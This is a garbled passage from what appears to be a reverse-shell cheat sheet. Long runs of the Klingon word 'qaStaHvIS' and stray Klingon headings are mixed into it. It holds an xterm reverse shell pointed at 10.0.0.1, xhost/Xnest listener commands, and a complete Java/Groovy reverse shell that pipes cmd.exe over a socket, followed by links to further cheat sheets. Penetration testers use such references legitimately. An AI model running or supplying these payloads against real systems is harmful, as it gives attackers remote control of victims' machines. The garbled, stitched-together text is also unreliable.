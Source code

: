 qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaStaHvIS qaSt
```bash
xterm -display 10.0.0.1:1
```
To catch the reverse shell you can use (which will listen in port 6001):

```
tlhIngan Hol:
ghItlh:
```

```
HTML:
<pre>
tlhIngan Hol:
ghItlh:
</pre>
```
```bash
# Authorize host
xhost +targetip
# Listen
Xnest :1
```
## Groovy

by [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) NOTE: Java reverse shell also work for Groovy

## tlhIngan Hol

by [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) Qap Java reverse shell 'oH Groovy Daq.
```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## References
* [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
* [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell)
* [https://tcm1911.github.io/posts/whois-and-finger-reverse-shell/](https://tcm1911.github.io/posts/whois-and-finger-reverse-shell/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
